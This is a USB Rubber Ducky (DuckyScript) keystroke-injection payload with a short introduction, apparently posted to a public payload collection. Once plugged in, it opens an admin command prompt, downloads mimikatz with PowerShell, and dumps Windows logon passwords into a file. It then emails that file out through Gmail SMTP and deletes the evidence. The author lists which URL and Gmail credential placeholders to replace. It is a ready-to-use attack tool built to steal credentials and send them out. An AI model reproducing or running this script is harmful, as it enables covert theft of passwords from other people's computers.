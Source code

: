 This payload:  
1. Downloads appropriate mimikatz version via http (I used dropbox)  
2. Opens a admin prompt  
3. saves mimikatz log to file  
4. emails log via gmail  


please change these lines to something (keep the single quote):  
'url to 32bit mimikatz.exe'  
'url to 64bit mimikatz.exe'  
'gmailuser', 'gmail password'  


Sorry about the wacky delays!  


```
REM Author: Pesce
REM Date: 10/20/2013
REM Note: Thanks to all the help everyone! This is my first attempt, don't be to upset!
REM -------------open command prompt with admin privileges
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
ENTER
DELAY 300
REM -------------download appropriate mimikatz for architecture
STRING powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('http://url to 32bit mimikatz.exe','%TEMP%\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('http://url to 64bit mimikatz.exe','%TEMP%\pw.exe');}
ENTER
DELAY 5000
REM -------------get the passwords and save to c:\pwlog.txt
STRING %TEMP%\pw.exe > c:\pwlog.txt & type pwlog.txt;
ENTER
DELAY 2000
STRING privilege::debug
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 300
STRING del %TEMP%\pw.exe
ENTER
DELAY 300
REM -------------email log via gmail
STRING powershell
ENTER
DELAY 300
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('gmailuser', 'gmail password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'pesce@pescetech.com'
ENTER
STRING $ReportEmail.To.Add('pesce@pescetech.com')
ENTER
STRING $ReportEmail.Subject = 'Duck Report'
ENTER
STRING $ReportEmail.Body = 'Attached is your duck report.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\pwlog.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
REM ---------------------delete and end
STRING del c:\pwlog.txt
ENTER
DELAY 300
STRING exit
ENTER
```